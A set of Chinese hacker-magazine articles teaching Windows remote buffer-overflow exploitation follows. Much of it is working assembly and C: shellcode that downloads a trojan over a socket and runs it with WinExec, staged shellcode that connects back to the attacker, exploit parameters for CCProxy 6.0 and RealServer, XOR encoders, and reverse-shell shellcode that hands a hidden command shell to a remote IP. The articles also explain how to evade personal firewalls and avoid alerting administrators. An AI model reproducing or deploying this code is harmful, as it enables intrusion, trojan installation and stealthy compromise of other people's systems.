add [ebp + 18h], eax    // 已接收文件大小

push eax
lea eax, [esi + 500]
push eax
push [ebp + 20h]
call [ebp + 64h]    // _write

mov byte ptr [esi + 480], 'y'
lea eax, [esi + 480]
push 0
push 1
push eax
push [ebp + 24h]
call [ebp + 58h]    // send 返回字节 'y'

cmp eax, 0
jle end

mov eax, dword ptr [ebp + 18h]
cmp eax, dword ptr [ebp + 1ch]
jl j1

push [ebp + 20h]
call [ebp + 68h]    // _close，传送完毕就关文件句柄

push 0
lea eax, [esi + 444]
push eax
call [ebp + 3ch]    // WinExec 执行木马文件

end:
```

文件传输过程是需要攻击客户端攻击程序与ShellCode严密配合的，每接收一组数据后，都发送一个确认信息 `y`，保障通信的流畅性。此外，执行文件我是调用函数WinExec而非 `_execl`，原因是 `_execl` 执行之后函数是不返回的，可能造成原服务进程发生异常而弹出骇人的错误对话框。

#### 善始善终——安全退出

在调用WinExec执行木马文件后，应该采用安全退出的方式，这里采用 `ExitProcess` 函数，当然也可以采用 `ExitThread` 函数。否则，可能会在目标机器管理员面前突然弹出Windows默认错误对话框，从而引起管理员的警惕。汇编代码如下：

```asm
end:
push 0
call [ebp + 14h]


```

最后就是ShellCode的提取。汇编提取ShellCode是通过：获取调试内存数据 + UltraEdit32编辑 + 加引导程序步骤来实现的。将汇编程序进入调试状态，调试指针指向第一句汇编，如图2所示。
图2

选择Debug窗口的memory选项，将汇编对应的机器码复制下来，粘贴到UltraEdit中，如图3所示。用UltraEdit32列模式去掉每行前面的地址等非机器码部分后，保存为input.txt，最后用加引导程序生成ShellCode。加引导程序的代码见附带的代码。
图3

至此，ShellCode编写完成，通过测试达到了预期的功能。单纯的ShellCode测试方法很多，最近几期也有介绍，我这里不多啰嗦了。

#### 实战——攻击代码的实现

ShellCode生成以后，就进入我们的实战阶段。我们的目的是成功利用CCProxy和RealServer这两个漏洞。这两个漏洞以前SNO分析过，当时给出攻击代码功能是传统的监听空闲TCP端口。这里我们要将功能按照我们的要求进行改进，生成的ShellCode共3部分，编写攻击代码时直接将3部分连接在一个数组中就可以了。下面我谈谈这两个漏洞利用中值得注意的问题。

## CCProxy溢出漏洞的利用改进

CCProxy是多功能代理服务软件，其http代理端口默认是808端口。很多版本的CCProxy都存在溢出漏洞，只是目前为止这些漏洞都还没有正式公布出来。这里针对6.0版本，向该端口发送超长的GET请求时会发生溢出，通过覆盖函数返回地址可以执行任意指令。看起来和普通的漏洞利用差不多，只是溢出串的长度和攻击者机器自身IP（或外网网关IP）长度有关。假设该IP长度为11（如61.139.2.33），则计算一个填充量 `offset=15-11=3`；当发送 `4045+offset` 字节请求时溢出发生，ShellCode的跳转地址当然还是那个 `0x7ffa4512`。关于传输文件的大小是攻击代码中动态获取，连同目标端口808一起填入ShellCode相应位置。经过编码（XOR XX），加上解码的代码就可以完成攻击代码了。

## RealServer溢出漏洞的利用改进

RealServer9.0l及以下版本具有一个指针溢出漏洞，对应端口为554，通过大量的“../”（DAS指令）过度恰好可以形成非常通用的攻击代码，而且不需要用jmp esp这样的跳转指令。漏洞的细节这里也不再啰嗦，因为2004年第6期《黑客防线》杂志中有漏洞的分析。我在改写攻击代码的过程中，发现代码老是被截断。弄了老半天，终于发现编码后的ShellCode中“\r”“\n”“\0”“\xff”这样一些字符全部不能有，否则ShellCode就会被截断。通过尝试，发现 `XOR 0x85` 正好符合编码要求。此外，我们惯用的解码代码中由于有向前跳转的指令，也少不了 `0xff`，因此也必须修改。通过调试发现溢出发生时，EBP+37h指向的位置刚好是待解码部分的首地址，因此变通一下，将解码部分汇编代码改为：

```asm
MOV EDI,EBP
ADD EDI,37
XOR ECX,ECX
MOV DL,85
ADD CX,0334
decode: MOV BL,[EDI]
// 开始循环解码
XOR BL,DL
MOV [EDI],BL
INC EDI
LOOP decode


```

#### 小结

通过本文，我和大家交流了一个综合功能ShellCode的打造过程，以及该ShellCode在具体漏洞中的应用和相关问题的解决过程，希望能给有兴趣的朋友一点启示。其中很多东西还是很基础的，说明我们只要把基础知识慢慢打牢固了，才能够解决更多的问题，水平才能逐步提高。此外，限于本人技术水平，本文中肯定有一些我没有考虑到或者是讲得不够清楚的地方，如果大家有一些更好意见，欢迎和我多多交流，以便共同提高。

【本文涉及的代码（程序），请见随书光盘】

### 突破溢出数据包长度限制

### ——编写分段传送的ShellCode（上）

文／图 曹军 / dangguai27
很高兴又和大家见面了，按照惯例，我还是先简单地回顾以前的东西。在前面文章中，我们讨论了堆栈溢出的漏洞调试与分析、常规的漏洞利用方法、突破防火墙的ShellCode编写、XP+SP2和2003溢出保护机制的突破、商用溢出保护软件防护机制的突破等技术。下面，针对远程堆栈溢出技术，我们再看看当漏洞协议对攻击数据包长度有限制的时候，我们可以怎样去突破。

#### 导火线——两漏洞利用的改进失败

回溯到2004年的3、4月，那正是大家热烈讨论FoxMail PunyLib.dll的From字段溢出漏洞的时候。作为菜鸟，我们都是把牛人们公布的添加用户的代码直接下载后编译、填好参数执行。做过这事的朋友应该都有比较深刻的印象，那就是代码执行后达不到预想的效果——接收邮件的机器没有成功添加指定用户。后来在两台测试机器上截获数据包，以及对SMTP协议逐条命令进行调试分析后，发现我们用的SMTP邮件服务器如Sina、163等都改进了SMTP协议，而采用ESMTP协议，在EHLO与MAIL FROM命令之间，需要对Base64编码后的用户名/口令进行验证。很快解决了ESMTP验证，最后终于调试成功了，成功地添加上了用户，然而成功仅此而已。对于FoxMail的这个漏洞，From字段的缓冲区只开设了0x104字节的大小，而服务最多允许用户向From字段发送0x200字节，溢出数据长度上的限制让我们无法将功能更复杂的ShellCode一次性发送给漏洞程序。即使我们把ShellCode的主体部分放在0x200字节的开始处，也难以完成复杂的功能，更不用说覆盖SEH了，如下图所示。
再回到2003年初，来看另一个例子——SQL Server的Resolution溢出漏洞。针对于SQL Server 2000 + SP2及以下版本，Resolution（解析）服务是SQL Server通过UDP的1434端口向外提供实例解析。如果向这个服务发送以0x2（0x3或0x4也可以）开头的UDP数据，SQL Server会认为是合法的数据而进行解析，数据长度超过93个字节时由于没有进行长度检测而发生溢出。漏洞这里只是简单介绍，我们常规的利用是没问题的，溢出成功后在目标机器上监听新的端口，甚至通过反弹方式传送文件都可以。前段时间由于课题要求，需要将这个模块改写为通用的、能突破个人防火墙检测并传送木马文件的代码。这可让我为难了，因为无论我怎么压缩代码，ShellCode功能实现没问题，但是长度上总会超过1200字节，而该服务允许客户端发送的最大数据长度为1024。没办法，只能暂时作罢，这大概是我与汇编代码不够简练吧。

上面这两个例子向我们提出了一个问题：远程溢出漏洞利用中，在能编写简练汇编代码的基础上，如果ShellCode的功能要求复杂到其字节数远远超过漏洞一次能接收数据的最大长度的话，我们是否真的无计可施？答案当然是NO！

## 突破思路——结合socket复用，将ShellCode分段传送

既然一次性传送超长的ShellCode有问题，那我们可以将ShellCode分为若干段：SC = SC1 + SC2 + SC3…其中，SC1的功能相对特殊，它负责接收并组合后面的各段ShellCode。

要实现上面这种ShellCode传送方式，我们再整理一下思路，流程如下：

- 1. 对整个ShellCode按照功能进行分段。
- 2. 对各段ShellCode要完成的功能有清晰的认识，并明确各段传递方式。

例如，SC1负责接收后面的ShellCode，SC2负责创建后门用户，SC3—SC6负责像Sniffer一样在无端口情况下监听外界数据包，而其他SC又负责生成新的木马文件；或者SC2到最后一段SC的功能就是形成并执行一个大的木马，等等。不管它们的功能有多复杂，只要分工明确，一段一段传送，是肯定可以实现的。

关于各段ShellCode传送方式，可以是后面的所有段都由SC1来接收，也可以是每一段接收并执行后面的段，这个应根据实际漏洞的情况而言。

- 3. 发送SC1，即ShellCode的第一部分。

SC1的功能是：先动态获取整个ShellCode所需API函数的地址，然后查找当前连接通信的socket，并通过该socket来接收后面的各段ShellCode，组织并执行后面的ShellCode。因此，SC1的地位是很重要的，既要它能够至少接收并执行后面一段SC2，又要满足数据的长度限制。

- 4. 依次发送各段ShellCode。

后面的各段ShellCode的传送和执行方式前面已经说过，根据漏洞利用的实际要求来选择你自己的处理方式。但是最后一段ShellCode功能完成后一定要注意安全退出，避免对目标系统造成明显影响。

#### 模拟实现——漏洞代码示例

好了，下面给出一个问题程序。

```c
/* 测试程序 */
#include "windows.h"
#include "winsock.h"
#include "stdio.h"
#pragma comment(lib, "ws2_32")

void fun(char *szIn)
{
    char szBuffer[100];
    memset(szBuffer, 0, 100);
    strcpy(szBuffer, szIn); // 溢出发生
    printf("%s\n", szBuffer);
    return;
}

int main(int argc, char *argv[])
{
    if(argc != 3)
    {
        printf("usage: %s ip bindport\n");
        return -1;
    }

    WSADATA wsa;
    SOCKET sSock;
    sockaddr_in srv;
    int len;

    char szBuf[1024] = {0};
    int nRcv;
    BOOL bFinish;
    int nPort;

    nPort = atoi(argv[2]);

    // 初始化winsock
    if(WSAStartup(MAKEWORD(2,0), &wsa) != 0)
    {
        printf("Winsock init Error! ErrorCode = %d\n", WSAGetLastError());
    }

    sSock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP); // UDP
    if(sSock == INVALID_SOCKET)
    {
        printf("Creating socket Error! ErrorCode = %d\n", WSAGetLastError());
    }

    srv.sin_family = AF_INET;
    srv.sin_port = htons(nPort);
    srv.sin_addr.S_un.S_addr = inet_addr(argv[1]);
    len = sizeof(srv);

    if(bind(sSock, (sockaddr*)&srv, sizeof(srv)) != 0)
    {
        printf("Bind Error! ErrorCode = %d\n", WSAGetLastError());
    }

    while(true)
    {
        nRcv = recvfrom(sSock, szBuf, sizeof(szBuf)-1, 0, (sockaddr*)&srv, &len);
        if(nRcv > 0)
        {
            fun(szBuf);
            bFinish = TRUE;
        }
        if(bFinish)
        {
            break;
        }
    }
    return 0;
}


```

程序很简单，就是一个UDP服务端，绑定你指定的一个UDP端口，有用户输入的话，就接收数据，处理后程序退出。服务端有防火墙，假设只允许外部访问这个UDP端口，任何向外的TCP连接都会告警。我们如果想通过溢出漏洞向服务端传送一个木马文件，并且要成功躲避防火墙检测，写出的ShellCode长度应该会超过recvfrom函数的1024字节限制。

由于时间有限，这里先把这个问题留下来，大家可以先根据漏洞程序的特点和前面说的思路进行分析，看能否实现我们的目的。在下期文章中，我再和大家一起进行ShellCode的实现。还是那句话，欢迎大家和我交流，留下QQ：19013788。

> 【本文涉及的代码（程序），请见随书光盘】

### 突破溢出数据包长度限制

### 编写分段传送的ShellCode（下）

文／图 曹军 / dangguai27
在上一篇文章中，我们讨论了分段传送ShellCode的应用环境和编写基本思路，并在最后留了一个存在溢出漏洞的测试程序，希望大家能自己写代码来利用。不知道大家感觉怎么样。今天呢，我们就一起来针对这样一个漏洞程序，结合分段传送ShellCode的思想，一步一步编写我们的攻击程序。

局部变量就是100字节，加上一些跳转指令，我们能充分利用起来装ShellCode的长度就只有500字节左右，而且还包括ShellCode解码部分的20几个字节。如果recvfrom函数指定的接收缓冲区比600字节更短就更困难了，因此将攻击代码分两段来传送是必要的。

#### 漏洞程序的修正以及利用方案分析

上一篇文章中给出的漏洞程序，当时由于时间关系，没有作仔细的分析与测试，后来在调试的时候发现一点问题，现在作略微修改。

- 1）代码绑定的UDP端口定为999端口，并设置端口绑定为独占：

```c
srv.sin_port = htons(999);
BOOL flag = TRUE;
int SO_EXCLUSIVADDRUSE = ~SO_REUSEADDR; // 取反
setsockopt(sSock, SOL_SOCKET, SO_EXCLUSIVADDRUSE, (const char *)&flag, 4);
```

- 2）UDP套接字recvfrom函数指定的接收缓冲区大小减少到600字节，这样更加限制了我们一次性发送ShellCode的字数。

```c
char szBuf[600] = {0};
```

其他一些次要的修改，大家可以参照光盘中的代码。此外，我们还提到了个人防火墙的绕过问题。

好了，下面我们就来制定合理的利用方案。请大家注意了，针对具体一个漏洞写攻击代码的时候可能有多种实现方案；但只要很好地把握了漏洞的特点，仔细分析，我们往往就能找出最佳的一条路子。针对这个漏洞，要编写通用的、能自动传送并执行木马的攻击代码，需要考虑的地方无非有以下3点。

- ★ 一次性发送ShellCode的可行性。recvfrom函数指定的缓冲区大小为600字节，其中用来存放前面局部变量的就是100字节，加上一些跳转指令，我们可用长度大约500字节。
- ★ UDP通信的特性。UDP通信与TCP的区别在于前者是不面向连接的。也就是说在UDP中无法通过getpeername这样的函数获取对方IP和端口，也无法像TCP中那样通过当前连接对应的socket来复用。
- ★ 防火墙的绕过。一般绕过个人防火墙检测的方法是复用当前连接对应的socket，这在TCP中有用，本例不适用。重复绑定服务端口在TCP和UDP中都适用（只要用bind函数），但本例由于设置了socket的SO_EXCLUSIVADDRUSE属性，不允许UDP 1434端口重复绑定。文中基于SQL Server 2000解析服务漏洞背景，采用了对应设置；若目标环境允许重复绑定则可利用。重新绑定服务端口在UDP中可实现，但代码较长，可能超过500字节限制；创建子进程再注入代码也会超长。直接反向连接攻击端监听的TCP 80端口。

呵呵，前面4条路好像都堵死了。尽管防火墙要报警，但在攻击端监听TCP 80端口，反连的时候目标用户可能不是很在意而放行，因此看来第5条最可行。

综合起来看，我们要写这个漏洞程序的利用代码方案就是：在攻击端监听TCP 80端口，发送第一段ShellCode后，等待ShellCode执行后反向连接攻击端，然后发送第二段ShellCode，最后由第二段ShellCode来接收并执行木马文件。

## ShellCode的打造

先后发送的两段ShellCode（后称为SC1和SC2），都是在VC6下面汇编提取的。对于SC1，我们需要注意的是尽量精简。养成简短而规范的ShellCode编写习惯对我们以后利用各种漏洞都是有帮助的。就这个例子而言，SC1功能很明确：接收后面的SC2，并且跳到SC2去执行。为此，我们的汇编代码需要做以下几件事情。

- 1）动态查找GetProcAddress和LoadLibraryA的地址，使代码具有通用性。这个在前面一些文章中我和其他作者都提到了，大家可以参考。
- 2）获取并保存socket、connect、recv这3个函数的地址，顺便保存Kernel32.dll和ws2_32.dll的地址（如果字节数太紧张就不保存了）。就这3个函数，我没有采用以前的先存所有函数名再逐个求的方式，而是逐个求的，这样反而节省了字节数：

```asm
// 下面求ws2_32地址
mov dword ptr [ebp], '_2sw'
mov dword ptr [ebp + 4], 0x3233 // '23'
push ebp
call [ebp + 30h] // LoadLibraryA地址，已经求得
mov ebx, eax     // 保存ws2_32.dll地址

// 下面查找socket
mov dword ptr [ebp], 'kcos'
mov dword ptr [ebp + 4], 0x7465
push ebp
push ebx         // ws2_32.dll地址
call [ebp + 2ch] // GetProcAddress地址，已经求得
mov [ebp + 34h], eax // 保存

// 下面查找connect
mov dword ptr [ebp], 'nnoc'
mov dword ptr [ebp + 4], 0x746365
push ebp
push ebx
call [ebp + 2ch]
mov [ebp + 38h], eax

// 最后查找recv
mov dword ptr [ebp], 'vcer'
mov byte ptr [ebp + 4], 0
push ebp
push ebx
call [ebp + 2ch]
mov [ebp + 3ch], eax
```

- 3）连接攻击端的TCP 80端口，接收并执行第二段ShellCode即SC2。本例中，我没有在SC1中调用WSAStartup函数，因为我们远程攻击的服务进程肯定已经调用了这个函数对Winsock进行初始化。但是在平时针对具体漏洞的时候，大家还是应该多检查检查。至于SC2中反连的IP，是我们在攻击代码中获取了攻击端本机IP后填充进去的。另外，我们注意保存了接收SC2所用的socket，该socket在SC2中还要用于传送文件。

```asm
// 重新规划内存，用于接收SC2
sub esp, 800h
mov ebx, esp
add ebx, 4

// 创建socket
push 6 // IPPROTO_TCP
push 1 // SOCK_STREAM
push 2 // AF_INET
call [ebp + 34h] // socket()
mov [ebp + 40h], eax // [ebp + 40h]存放服务端socket描述符

// connect TCP 80
/*
struct sockaddr_in
{
  short sin_family;
  u_short sin_port;
  struct in_addr sin_addr;
  char sin_zero[8];
};
从ebp+50h开始，16字节
*/
mov word ptr [ebp + 50h], 2
mov word ptr [ebp + 52h], 0x5000 // htons(80)端口
mov dword ptr [ebp + 54h], 0x0100007f
mov dword ptr [ebp + 58h], 0
mov dword ptr [ebp + 5ch], 0
push 16
lea eax, [ebp + 50h]
push eax
push [ebp + 40h] // socket描述符
call [ebp + 38h] // connect()

// 接收SC2，接收缓冲区从ebx开始
push 0
push 750h // socket接收缓冲区大小
push ebx
push [ebp + 40h]
call [ebp + 3ch] // recv()
cmp eax, -1
jz over
jmp ebx // 跳到SC2去执行

over:
```

好了，接着是SC2的编写了，当然SC2就不会有那么紧张的字节数限制啦。SC2的功能也很明确，就是接收木马文件并保存为cj.exe，然后执行该文件，最后退出服务进程。具体而言，汇编代码需要做以下几件事情。

- 1）直接利用SC1中的GetProcAddress、LoadLibraryA以及ws2_32、Kernel32的地址，获取send、_open、_write、_close、WinExec、ExitProcess这6个函数的地址。这部分代码很简单，大家可以直接参考。
- 2）木马文件的传送，这里需要注意一下。传送文件的套接字我就直接复用了SC1中接收SC2时的连接对应的socket，由于SC1和SC2是连续执行，因此不用再花代码去查找该socket了。接收文件代码如下：

```asm
// 向远端发送已开始执行SC2的信号 "ok!"
// 后面的通信也利用已经建立连接的套接字标识 [ebp + 40h]
mov dword ptr [ebp + 64h], 'uko'
mov byte ptr [ebp + 67h], 0
push 0
push 4
lea eax, [ebp + 64h]
push eax
push [ebp + 40h]   // socket标识
call [ebp + 20h]   // send()

// 创建文件 \cj.exe (_open)
mov dword ptr [ebp + 68h], 0x2e6a635c
mov dword ptr [ebp + 6ch], 'cexe'
mov byte ptr [ebp + 6fh], 0
push 0x0180
push 0x8301
lea eax, [ebp + 68h]
push eax
call [ebp + 44h]   // _open

// 保存文件句柄
mov dword ptr [ebp + 16h], eax
mov dword ptr [ebp + 70h], 0x00027031
mov dword ptr [ebp + 74h], 0

j1:
// 接收文件，每次512字节，接收后存放在ebx+400h开始的地方
push 0
push 512
lea eax, [ebx + 400h]
push eax
push [ebp + 40h]
call [ebp + 3ch]   // recv()
cmp eax, 0
jle end
add dword ptr [ebp + 74h], eax
push eax
lea eax, [ebx + 400h]
push eax
push [ebp + 16h]   // 文件句柄
call [ebp + 48h]   // _write()

// 发送确认的 'y' 回去
mov [ebx + 604h], 'y'
lea eax, [ebx + 604h]
push 0
push 1
push eax
push [ebp + 40h]
call [ebp + 20h]   // send()
cmp eax, 0
jle end

// 比较文件大小，确定是否传输完毕
mov eax, dword ptr [ebp + 74h]
cmp eax, dword ptr [ebp + 70h]
jl j1

// 传递完毕就关闭文件句柄
push [ebp + 16h]
call [ebp + 4ch]   // _close
```

- 3）文件接收完毕，执行该文件并退出服务进程：

```asm
// WinExec 执行 \cj.exe
push 0
lea eax, [ebp + 68h]
push eax
call [ebp + 24h]   // WinExec

// 退出 ExitProcess
end:
push 0
call [ebp + 12h]
```

SC1和SC2的汇编代码就编写到这里，详细内容请参考光盘中的代码，下面的任务就是构造攻击程序了。

#### 攻击程序的编写及调试

要编写漏洞的攻击程序，实现起来有下面几个步骤。

- 1）ShellCode的提取。ShellCode的提取方法以前是讲过的，这里简单说一下：单步调试汇编源代码，使EIP指向你的第一条汇编指令，在memory窗口中输入“EIP”回车，复制这片内存数据，直到最后一条汇编指令对应的机器码，将复制的机器码粘贴到二进制文本编辑器（如UltraEdit32）中，如图1所示。保存为Input.txt，然后专门写个程序来添加引导就行了。相关的代码我也放到了光盘中。
- 2）提取了SC1和SC2后，就是攻击代码的构造了。由于既要发送SC1，又要监听本机TCP 80端口，因此这里我们采用两个线程，分别完成监听（并传送文件）与攻击（发送SC1）的功能。我们需要做的是线程的同步和超时控制，部分代码如下。
  - ① 创建线程。

```c
tv.tv_sec = 20;
tv.tv_usec = 0;
FD_ZERO(&fs);
FD_SET(ClientSock, &fs);
if (select(0, &fs, NULL, NULL, &tv) < 0)
{
    printf("5:%d\n", GetLastError());
    return -1;
}


```
图1

```c
// 分别开启两线程
hThread[0] = CreateThread(NULL, 0,
    (LPTHREAD_START_ROUTINE)ListenThreadProc,
    NULL, NULL, NULL);
Sleep(1000);
hThread[1] = CreateThread(NULL, 0,
    (LPTHREAD_START_ROUTINE)SendShellThreadProc, NULL,
    NULL, NULL);
```

- ② 线程同步。

```c
// 创建事件对象
hEvent = CreateEvent(NULL, FALSE, FALSE, "88888888");
// 其实攻击线程很快就返回了
WaitForSingleObject(hThread[1], INFINITE);
CloseHandle(hThread[1]);
// 如果20秒内目标主机反连过来，则一直等到木马传送完毕
if (WaitForSingleObject(hEvent, 20000) == WAIT_OBJECT_0)
    WaitForSingleObject(hThread[0], INFINITE);
else // 否则结束监听线程
{
    TerminateThread(hThread[0], 0);
    closesocket(ListenSock);
    closesocket(ClientSock);
}
```

```c
// Listen线程中：
ClientSock = accept(ListenSock, (sockaddr *)&ClientAddr, &nAddrSize);
// 以后都通过ClientSock与目标机器进行通信了
// 设置事件为信号态，给主线程发送消息，然后关闭事件句柄
SetEvent(hEvent);
CloseHandle(hEvent);
```

- ③ TCP通信的超时控制。这里用到了 `fd_set` 和 `timeval` 两个数据结构：

```c
timeval tv;
fd_set fs;


```

- 3）ShellCode的编、解码。至于编码，一般是要考虑编码后不带有0字符的。在SC1中，我用0x99编码，而在发送的时候先在SC1前面加上解码代码。编码的工作不针对SC2，因为recv函数是可以传送0字符的，而SC2是直接存放在了SC1中recv函数指定的缓冲区里，然后跳转过去执行，实现“无缝连接”。

- 4）关于攻击代码的调试。我们编写攻击代码，不仅要对ShellCode进行单元测试，更重要的是通过ShellCode形成攻击程序的时候要进行整体测试。这里向大家推荐一组好工具——VMWare+SoftICE，这一对组合对我们平时调试漏洞是很有用的……如图2所示。
图2

好了，整个攻击程序就构造完了，在Windows 2000 SP4 + VC6下编译，测试通过，请大家参考。

#### 小结

本文中，我们通过实际例子讨论了分段传送的ShellCode的实现。过程其实并不复杂，关键在于思路的清晰与规范，希望对大家学习溢出技术有些帮助。还是老规矩——欢迎大家交流。

## 突破防火墙的非常道ShellCode
文/图 曾军/dangguai27

最近一些朋友发来信息，希望我多写一些溢出技术类文章，以便帮助广大初学的朋友逐渐进步。这里结合前段时间实际工作中的一些新的发现和体会，谈谈针对几款国产个人防火墙（简称为PFW）的ShellCode技术，并讲讲国产防火墙规则配置中存在的一些问题。毕竟，国内网络用户这个特殊的群体，还是有很大一部分是在使用国产PFW的。如果你以前不了解这方面的知识，看了本文后就会感觉这真是既实用，又不需要花太多时间去理解的东西。

## 国产PFW规则配置及存在的问题

不管在Internet中还是在教育网中，由于病毒和蠕虫的泛滥，以及黑客技术的发展，上网的朋友大多都会给自己的机器装上防火墙，否则我们的机器将随时暴露在各种网络攻击之下。我们常用的国产PFW主要有天网、金山、瑞星、江民等几类。这几款防火墙在规则的配置上是大同小异，相信很多朋友在安装了PFW后基本都是采用了其默认设置吧，至少以前我是。

下面我就以天网为例子，谈谈国产PFW的规则及其问题所在，金山、瑞星等也存在同样的问题。国产PFW的规则大致分为应用程序访问网络权限设置和IP规则设置两部分，前者主要控制本机的应用程序对网络的访问，后者控制外界对本机开放服务的访问。简单言之，就是一个控制数据包向外的动作，另一个基本控制数据包向内的动作。

我们装好天网个人防火墙后，在规则设置向导里可以看到有一些应用程序是系统默认允许访问网络的，如图1所示。这些应用程序中除了IE以外，大部分都是运行着的系统进程，如Lsass.exe、Services.exe、Svchost.exe等。
图1

在访问网络时，天网防火墙都会至少给出警告信息。以程序client.exe为例子，如图2所示。如果选中“该程序以后都按照这次的操作运行”，并且单击“允许”，则该应用程序也成为了默认允许访问网络的程序。
图2

下面我们来看，一个默认允许访问网络的应用程序究竟可以做哪些事情呢？在规则列表中任意选择一个应用程序，如Services.exe，单击“选项”后，如图3所示。从图3中我们可以看出，以后该应用程序访问网络资源或者开放端口（任意TCP/UDP），均不会报警。
图3

改为887（或其他任意端口），再测试，结果没有弹出告警信息。我再将其功能改为外连其他机器的某端口，仍然没有弹出告警信息。Client的代码很简单，我也附带在文章后面，大家可以自己作更多复杂的测试。金山、瑞星我都测试过，也是同样的结果。我们可以得出这样一个结论：国产PFW对应用程序访问网络的控制策略是粗粒度的，正是由于这种粗粒度的控制，使我们有了后面的论述。当然，国外的防火墙基本不存在这个问题，如诺顿、卡巴斯基等。

#### 突破个人防火墙技术

有了上面的问题和结论，大家联想到什么了吧？没错，就是溢出技术中的正向连接和反向连接的问题。如果一个系统进程，防火墙默认是允许访问网络的，更要命的是存在溢出漏洞，那么我们把它溢出后，可以采取两种ShellCode方式获取Shell：目标机器开一个端口，然后用nc连过去；另一种则是在攻击机上用nc开一个端口，让目标机器上的ShellCode反连过来。这两种方式大家都是比较熟悉的，但是它们实质上有什么不同呢？

前一种方式，在目标机器防火墙信任进程中开放任意端口都是不会报警的，但是我们要访问这些端口却可能比较困难，因为防火墙还有IP规则配置。默认的IP规则配置是会阻截外界连接本机的TCP端口的。通过测试我发现这个规则对于从局域网访问和从Internet访问时有所不同，大家有兴趣可以看看，这里不详解了。更重要的是，从用户的防御角度出发，相信也是更多地在IP规则上作文章，把无用的端口全部堵上。这种情况下可能通过端口（或连接）复用技术来突破，其优缺点我在《黑客防线》杂志2005年第14期都讲过，大家可以参考，这里也不作为重点了。

后一种方式成功的可能性就大一些了。对防火墙信任进程溢出成功后，ShellCode向外连接，国产PFW是不会报警的，除非IP规则做得很详细，且有针对性，但大多数用户都不会这样做，原因就是不熟悉。这一对比，大家就明白为什么在下载很多溢出攻击工具的时候，附带的介绍会说是采用了突破防火墙的反连方式。再次说明，这里的突破只针对国产的PFW。

反弹木马大家也应该用过了，但是在防火墙环境下，木马作为一个陌生的程序（对防火墙而言）反向连接控制端，防火墙是会告警的。一个解决办法就是把网络部分的代码以创建远线程的方式（CreateRemoteThread）注入到防火墙信任的系统进程中，系统进程这里推荐Spoolsv.exe，最可靠安全，即使挂掉了也不会引起系统重启，我测试过。至于代码注入技术，喜欢编写后门或系统程序的朋友应该是很熟悉的，我只说一点：有朋友问我为什么线程可以注入一般的进程，却注入不进系统进程，其实原因就是没有提升权限，提升权限的代码在网上到处可以找到。

## ShellCode的编写

谈了那么多防火墙的东西，下面我们就来着重讲反向连接、获取DOS窗口的ShellCode的汇编实现。本例没有使用匿名管道，而是通过非重叠套接字实现的，算法其实很简单，流程如图4所示。
图4

文章中涉及的C编代码在Windows 2000 SP4 + VC6下编译、测试通过。首先是查找GetProcAddress函数地址，然后保存在指定内存中。这个在前面多篇文章中都讲过，我这里就不啰嗦了，大家可以参考文章附带的代码。

```asm
mov [ebp+2Ch], eax
// 保存 GetProcAddress 函数地址
```

接下来是获取相关函数的地址：

```asm
mov dword ptr [ebp], 'daol'
mov dword ptr [ebp+4], 'rbiL'
mov dword ptr [ebp+8], 'Ayra'
mov byte ptr [ebp+0Ch], 0 // 串末尾一定加 '\0'
push ebp // 函数名地址作为参数压入栈
push ebx // Kernel32.dll
call [ebp+2Ch] // 函数返回后 eax 就是 LoadLibraryA 的地址
mov [ebp+30h], eax // 保存 LoadLibraryA 的地址

// 查找 CreateProcess 地址
mov dword ptr [ebp], 'aerC'
mov dword ptr [ebp+4], 'rPee'
mov dword ptr [ebp+8], 'seco'
mov dword ptr [ebp+0Ch], 'As'
push ebp
push ebx
call [ebp+2Ch]
mov [ebp+28h], eax

// 查找 WaitForSingleObject 地址
mov dword ptr [ebp], 'tiaW'
mov dword ptr [ebp+4], 'SroF'
mov dword ptr [ebp+8], 'lgni'
mov dword ptr [ebp+0Ch], 'jbOe'
mov dword ptr [ebp+10h], 'tce'
push ebp
push ebx
call [ebp+2Ch]
mov [ebp+24h], eax

// 查找 ExitThread 地址
mov dword ptr [ebp], 'tixE'
mov dword ptr [ebp+4], 'erhT'
mov dword ptr [ebp+8], 'da'
push ebp
push ebx
call [ebp+2Ch]
mov dword ptr [ebp+20h], eax

// 下面查找 ws2_32.dll 地址
mov dword ptr [ebp], '_2sw'
mov dword ptr [ebp+4], '23'
push ebp
call [ebp+30h]
mov [ebp+34h], eax // ws2_32

// 找 WSAStartup 地址
mov dword ptr [ebp], 'SASW'
mov dword ptr [ebp+4], 'trat'
mov dword ptr [ebp+8], 'pu'
push ebp
push [ebp+34h] // ws2_32
call [ebp+2Ch]
mov dword ptr [ebp+38h], eax // WSAStartup 地址

// 找 WSASocket 地址
mov dword ptr [ebp], 'SASW'
mov dword ptr [ebp+4], 'ekco'
mov dword ptr [ebp+8], 'At'
push ebp
push [ebp+34h] // ws2_32
call [ebp+2Ch]
mov dword ptr [ebp+3Ch], eax // WSASocket 地址

// 找 connect 地址
mov dword ptr [ebp], 'nnoc'
mov dword ptr [ebp+4], 'tce'
push ebp
push [ebp+34h] // ws2_32
call [ebp+2Ch]
mov dword ptr [ebp+40h], eax // connect 地址
```

函数地址查找完毕，就该进行功能实现了。

```asm
// 留出空间以备将来存放长的数据
sub esp, 1024
mov esi, esp
add esi, 4

// WSAStartup 初始化套接字
// [esi]开始的400字节存放 wsa
push esi
push 0x0202
call dword ptr [ebp+38h] // 返回 0 成功

// WSASocket 创建套接字
push 0
push 0
push 0
push 6 // IPPROTO_TCP
push 1 // SOCK_STREAM
push 2 // AF_INET
call [ebp+3Ch] // WSASocket
mov dword ptr [ebp+44h], eax

// 反连目标机器25端口
/*
struct sockaddr_in
{
    short sin_family;
    u_short sin_port;
    struct in_addr sin_addr;
    char sin_zero[8];
};
[esi+404] 开始的16字节
*/
mov word ptr [esi+404], 2 // AF_INET
mov word ptr [esi+406], 0x1900 // port, 可任意替换
mov dword ptr [esi+408], 0x6400a8c0 // 192.168.0.100, 可任意替换
push 10h
lea eax, dword ptr [esi+404]
push eax // 结构地址入栈
push [ebp+44h]
call [ebp+40h] // connect
cmp eax, 0
jnz gameover // 连接失败则结束

// 下面 CreateProcess 创建子进程
// 从[esi+424]开始的68字节存放 STARTUPINFO 结构对象，并初始化为0
xor ecx, ecx
mov cx, 69
lop0:
mov byte ptr [esi+ecx+423], 0
loop lop0

mov dword ptr [esi+424+44], 0x0101 // dwFlags
mov word ptr [esi+424+48], 0 // wShowWindow=SW_HIDE
mov eax, dword ptr [ebp+44h]
mov dword ptr [esi+424+56], eax // hStdInput
mov dword ptr [esi+424+60], eax // hStdOutput
mov dword ptr [esi+424+64], eax // hStdError

